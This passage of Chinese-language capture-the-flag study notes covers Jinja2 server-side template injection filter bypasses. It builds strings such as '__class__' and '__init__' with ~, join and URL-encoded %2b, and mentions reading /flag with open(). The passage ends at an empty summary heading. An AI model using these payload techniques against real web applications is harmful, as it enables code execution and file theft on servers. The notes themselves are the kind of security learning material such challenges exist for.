 ```python
var3 = dict(po=1,p=2)
print("".join(var3))
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676086105844-cd1e3c1f-ec6c-444f-a385-6232de0ce212.png#averageHue=%23212120&clientId=uef09e2d1-bf88-4&from=paste&height=32&id=u4895a3c5&originHeight=64&originWidth=313&originalType=binary&ratio=2&rotation=0&showTitle=false&size=2954&status=done&style=none&taskId=ua1c0713f-94b3-4826-a54f-8c634852e21&title=&width=156.5)

#### ~

- 拼接字符串

```python
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}

#意思就是{{""['__class__']}}
```

- 输出结果为：

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676102172951-6bcffeb9-c621-4b68-bd58-2bfa99eddfdb.png#averageHue=%23ecebea&clientId=u34133bce-2d15-4&from=paste&height=41&id=z1SuT&originHeight=82&originWidth=450&originalType=binary&ratio=2&rotation=0&showTitle=false&size=5299&status=done&style=none&taskId=uec11d7b0-38de-4c86-9fcd-eed025dec61&title=&width=225)

#### %2b

```python
name={%set a='_'%}{% set ini=a%2ba%2b'class'%2ba%2ba%}{%print(ini)%}
```

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676104111199-35a1f893-2863-43db-8ec8-21761613c029.png#averageHue=%23f5f4f4&clientId=u34133bce-2d15-4&from=paste&height=63&id=uc0f6cdf0&originHeight=126&originWidth=408&originalType=binary&ratio=2&rotation=0&showTitle=false&size=4254&status=done&style=none&taskId=u82c5368d-5a5b-4440-a333-2cb6105e3d6&title=&width=204)

### payload

:::info
这题过滤了request，只能拼接字符<br />`~ 和 join`都可以拼接字符

- **在得到**`**/flag**`**后，用**`**open('/flag')**`**打开，这个之前不知道**
- **%2b应该也是字符串拼接**
  :::

**拿出一句分析一下：**

```python
#后面没有join
{%set a='_'%}{% set ini=(a,a,dict(init=a)|join,a,a)%}{%print(ini)%}

#后面有join
{%set a='_'%}{% set ini=(a,a,dict(init=a)|join,a,a)|join%}{%print(ini)%}
```

- 没有join的输出

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676102802367-0a31bf8b-f55e-4451-ac6b-723b4e6feadf.png#averageHue=%23f4f3f3&clientId=u34133bce-2d15-4&from=paste&height=50&id=ud8fefee4&originHeight=99&originWidth=621&originalType=binary&ratio=2&rotation=0&showTitle=false&size=5169&status=done&style=none&taskId=u1dbb5f59-9544-4448-bb8e-de484226c14&title=&width=310.5)

- 有join的输出

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676102860492-a5e3a272-6044-4e81-812a-9af30f07ecef.png#averageHue=%23f9f9f9&clientId=u34133bce-2d15-4&from=paste&height=82&id=u5d3be2e1&originHeight=164&originWidth=525&originalType=binary&ratio=2&rotation=0&showTitle=false&size=3611&status=done&style=none&taskId=u2ec9b8e4-2482-4a6d-b1ea-ae32d4cade5&title=&width=262.5)
:::info
总结：
